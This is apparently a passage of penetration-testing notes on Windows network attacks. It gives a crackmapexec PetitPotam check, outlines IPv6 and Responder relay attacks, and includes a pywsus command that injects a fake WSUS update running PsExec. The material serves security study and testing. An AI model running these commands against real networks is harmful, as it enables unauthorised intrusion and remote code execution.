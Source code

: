 Check to validate host is vulnerable to petitpotam
```
crackmapexec smb 10.10.0.10 -u jdoe -p Pass1234 -d company.com -M petitpotam
```
### samAccountName spoofing

### MiTM - IPv6 + Relay
- Windows prefers IPv6 by default.
- DHCPv6 is constantly broadcasting to the entire network.

- https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/

SMB Relay

LDAP Relay

Tools: ntlmrelayx, multirelay

### Responder + Relay
SMB Relay

LDAP Relay

### WSUS Exploitation
In case of WSUS being deployed without SSL/TLS encrypted communications, we can perform a man-in-the-middle attack and inject a fake update.
- Can only deliver binaries signed by Microsoft (PSExec, BGinfo with VB script)
- Need to perform ARP Spoofing or tamper with the system's proxy settings (if possible)

--> WSUS Server can be found based on the server hostname (e.g. server-wsus-01) or based on open ports (8530,8531)  

**Tools**  
- https://github.com/pimps/wsuxploit
- https://github.com/GoSecure/pywsus
- https://github.com/ctxis/wsuspect-proxy/

```
python pywsus.py -H 172.16.205.21 -p 8530 -e PsExec64.exe -c ‘/accepteula /s cmd.exe /c “echo wsus.poc > C:\\poc.txt”‘
```

- [WSUSpect Black Hat Talk](https://www.blackhat.com/docs/us-15/materials/us-15-Stone-WSUSpect-Compromising-Windows-Enterprise-Via-Windows-Update.pdf)
- [WSUSPect tool](https://github.com/ctxis/wsuspect-proxy)
- [PyWSUS](https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/)
  
Windows Update is a Windows service, **wuauclt.exe** which run periodically to check for updates.  
Registry keys exist that govern various details such:
- Update server's location
- Update frequency
- Privileged Escalation of unprivileged users

--> Communication: Client --> Windows Update Server : HTTP(S) / SOAP XML web service.  

#### WSUS details
WSUS or Windows Software Update Services is the enterprise variant of Windows update.  
- Updates fetched from local server instead of Microsoft Server
- Updates must be approved by administrator before being pushed out
